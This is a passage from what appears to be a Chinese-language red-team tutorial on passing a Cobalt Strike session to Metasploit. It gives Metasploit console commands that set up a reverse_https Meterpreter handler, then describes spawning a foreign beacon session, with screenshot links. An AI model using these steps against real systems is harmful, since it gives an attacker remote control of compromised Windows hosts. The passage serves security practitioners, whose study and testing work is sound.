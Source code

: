 ```shell
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf exploit(handler) > set lhost 10.211.55.2
lhost => msf ip
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > exploit
```

然后在cs里配置，填上msf的ip和监听端口。

然后选择会话右键派生，会话选择forign beacon：

![image-20240227195131535](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402271951624.png)

随后在msf中就会接收到会话：

![image-20240227195228315](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202402271952409.png)


